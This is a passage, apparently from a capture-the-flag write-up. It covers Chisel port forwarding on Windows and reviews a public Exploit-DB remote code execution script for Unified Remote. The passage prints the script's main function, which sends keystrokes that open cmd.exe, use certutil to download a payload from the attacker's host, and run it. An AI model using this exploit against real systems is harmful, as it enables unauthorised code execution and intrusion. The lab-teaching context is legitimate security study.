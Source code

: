 
    2022/01/28 16:36:00 server: session#1: tun: proxy#R:9512=>9512: Listening



This is another chance to remind everyone that you must use 127.0.0.1
with Chisel and Windows. By default, Windows will route `localhost` to
`::1`, which doesn't work is the service you are forwarding isn't on
IPv6.

#### Exploit Script Review

I'll download [the exploit](https://www.exploit-db.com/exploits/49587)
and take a look. It's a legacy Python script. I can get it up to modern
Python by replacing all the `.decode('hex')` with `unhexlify` (which I
import from `binascii`).

The script takes in three arguments:



    oxdf@hacky$ python3 unified_remote_rce.py 
    Usage: python unified_remote_rce.py <target-ip> <local-http-ip> <payload-name>



Looking at the code, the `main` function basically sends a series of
commands / keystrokes:



    def main():
            target.connect((rhost,port))
            sleep(0.5)
            print("[+] Connecting to target...")
            target.sendto(open,(rhost,port))      # Initialize Connection to Unified
     sleep(0.02)
            target.sendto(open_fin,(rhost,port))  # Finish Initializing Connection
     print("[+] Popping Start Menu")
            sleep(0.02)
            SendWin()
            sleep(0.3)
            print("[+] Opening CMD")
            SendString("cmd.exe", rhost)
            sleep(0.3)
            SendReturn()
            sleep(0.3)
            print("[+] *Super Fast Hacker Typing*")
            SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " C:\\Windows\\Temp\\" + payload, rhost) # Retrieve HTTP hosted payload
     sleep(0.3)
            print("[+] Downloading Payload")
            SendReturn()
            sleep(3)
            SendString("C:\\Windows\\Temp\\" + payload, rhost) # Execute Payload
     sleep(0.3)
            SendReturn()
            print("[+] Done! Check listener?")
            target.close()
